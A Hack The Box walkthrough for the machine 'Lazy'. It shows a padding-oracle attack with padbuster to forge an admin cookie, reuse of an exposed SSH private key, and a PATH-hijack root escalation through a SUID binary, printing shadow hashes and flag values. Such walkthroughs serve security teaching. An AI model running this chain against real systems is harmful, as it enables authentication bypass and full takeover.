

# Target
| Category          | Details                                          |
|-------------------|--------------------------------------------------|
| 📝 **Name**       | [Lazy](https://app.hackthebox.com/machines/Lazy) |  
| 🏷 **Type**       | HTB Machine                                      |
| 🖥 **OS**         | Linux                                            |
| 🎯 **Difficulty** | Medium                                           |
| 📁 **Tags**       | padding oracle attack, $PATH hijacking           |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-24 16:49 +0100
Nmap scan report for 10.129.6.222
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.47 seconds
```

#### Register user `john`
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ curl -s -c cookies.txt http://$TARGET/register.php -d 'username=john&password=pass&password_again=pass' -o /dev/null
```

#### Investigate cookies returned by web server
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ cat cookies.txt
<SNIP>
10.129.9.2      FALSE   /       FALSE   0       auth    z%2BKyaOPdQrse4uY52kB7s1288%2FMbSBVh
```

#### Decode `auth` cookie
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ urldecode "z%2BKyaOPdQrse4uY52kB7s1288%2FMbSBVh" | base64 -d | xxd
00000000: cfe2 b268 e3dd 42bb 1ee2 e639 da40 7bb3  ...h..B....9.@{.
00000010: 5dbc f3f3 1b48 1561                      ]....H.a
```
After decoding `auth` cookie we can see that this 24 bytes encoded with base64. 

#### Tamper `auth` cookie
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ curl -v http://$TARGET -H 'Cookie: auth=z%2BKyaOPdQrse4uY52kB7s1288%2FMbSBVA'
*   Trying 10.129.9.2:80...
* Connected to 10.129.9.2 (10.129.9.2) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.129.9.2
> User-Agent: curl/8.15.0
> Accept: */*
> Cookie: auth=z%2BKyaOPdQrse4uY52kB7s1288%2FMbSBVA
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 26 Feb 2026 05:39:25 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.21
< Content-Length: 15
< Content-Type: text/html
< 
* Connection #0 to host 10.129.9.2 left intact
Invalid padding                                                                                                                                 
```
After change last byte of `auth` cookie (from `h` to `A`) `Invalid padding` string has been returned. Assuming that this cookie holds some kind of ciphertext we could try to decipher it using [padding oracle](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle) attack.

#### Use `padbuster` to conduct padding oracle attack
Since (assumed) ciphertext is 24 bytes long, block size could be 8 bytes long (8 bytes * 3 = 24 bytes).
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ padbuster http://$TARGET/index.php z+KyaOPdQrse4uY52kB7s1288/MbSBVh 8 -cookies "auth=z+KyaOPdQrse4uY52kB7s1288/MbSBVh" -encoding 0 -error "Invalid padding"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 15

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

[+] Success: (46/256) [Byte 8]
[+] Success: (209/256) [Byte 7]
[+] Success: (76/256) [Byte 6]
[+] Success: (38/256) [Byte 5]
[+] Success: (225/256) [Byte 4]
[+] Success: (47/256) [Byte 3]
[+] Success: (106/256) [Byte 2]
[+] Success: (78/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 1ee2e639da407bb3
[+] Intermediate Bytes (HEX): ba91d71adeb72dd3
[+] Plain Text: user=joh

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361.
*** Starting Block 2 of 2 ***

[+] Success: (75/256) [Byte 8]
[+] Success: (130/256) [Byte 7]
[+] Success: (188/256) [Byte 6]
[+] Success: (39/256) [Byte 5]
[+] Success: (197/256) [Byte 4]
[+] Success: (25/256) [Byte 3]
[+] Success: (30/256) [Byte 2]
[+] Success: (136/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 5dbcf3f31b481561
[+] Intermediate Bytes (HEX): 70e5e13edd477cb4
[+] Plain Text: n

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=john

[+] Decrypted value (HEX): 757365723D6A6F686E07070707070707

[+] Decrypted value (Base64): dXNlcj1qb2huBwcHBwcHBw==

-------------------------------------------------------
```
We successfully decrypted the `auth` cookie and found that it contains `user=john`. This suggests that the cookie stores the username and is likely used to identify the currently authenticated user. If this is the case, we could attempt to use `padbuster` to encrypt `user=admin` and supply it as the value of the auth cookie.

#### Use `padbuster` to cipher `user=admin`
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ padbuster http://$TARGET/index.php z+KyaOPdQrse4uY52kB7s1288/MbSBVh 8 -cookies "auth=z+KyaOPdQrse4uY52kB7s1288/MbSBVh" -encoding 0 -error "Invalid padding" -plaintext "user=admin"
<SNIP>
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

#### Pass `auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA` cookie to `/index.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ curl http://$TARGET/index.php -H 'Cookie: auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA' 
<SNIP>
      <center><p>Tasos this is my ssh key, just in case, if you ever want to login and check something out.</p></center>
      <center><p><a href="mysshkeywithnamemitsos">My Key</a></p></center>
      <p>
      <p>
        <center></center>
        <p>
        <p>
        <center>You are currently logged in as admin!</center>
        <p>
<SNIP>
```
We were able to bypass authentication and access web application as `admin`. And on top of that we have found SSH private key for user `mitsos`.

#### Exfiltrate SSH private key
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ wget -q http://$TARGET/mysshkeywithnamemitsos -O id_rsa && chmod 600 id_rsa              
```

#### Use SSH private key to access target as user `mitsos`
```
┌──(magicrc㉿perun)-[~/attack/HTB Lazy]
└─$ ssh -o PubkeyAcceptedAlgorithms=+ssh-rsa -o HostKeyAlgorithms=+ssh-rsa -i id_rsa mitsos@$TARGET
<SNIP>
mitsos@LazyClown:~$ id
uid=1000(mitsos) gid=1000(mitsos) groups=1000(mitsos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
```

#### Capture user flag
```
mitsos@LazyClown:~$ cat /home/mitsos/user.txt 
f583791fe2ca4d50552ac69631c6dc1c
```

### Root flag

#### Discover `backup` SUID binary in `mitos` $HOME
```
mitsos@LazyClown:~$ ls -l /home/mitsos/backup 
-rwsrwsr-x 1 root root 7303 May  3  2017 /home/mitsos/backup
```

#### Run `backup` binary
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
<SNIP>
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
It seems that it prints content of `/etc/shadow`. We could try to crack `root` hash or analyze `backup` binary and look for vulnerabilities. Let's start with 2nd vector.

#### Analyze `backup` binary


There is essentially a single line in the `main` function: `system("cat /etc/shadow")`. Since cat is used without an absolute path (e.g., `/bin/cat`), the system will rely on the `$PATH` environment variable to locate the executable. Because we have full control over `$PATH`, we can hijack it by placing a malicious version of `cat` (e.g. root shell spawner) in a directory that appears earlier in the search order.

#### Exploit $PATH hijack in `backup` to escalate privileges to `root` user
```
mitsos@LazyClown:~$ echo "/bin/cp /bin/bash /tmp/root_shell && chmod 4755 /tmp/root_shell" > /home/mitsos/cat && \
chmod +x /home/mitsos/cat && \
export PATH=/home/mitsos:$PATH && \
/home/mitsos/backup && \
/tmp/root_shell -p
root_shell-4.3# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
```

#### Capture root flag
```
root_shell-4.3# /bin/cat /root/root.txt
ce8224eff598271a98a5be8def18fdd6
```
 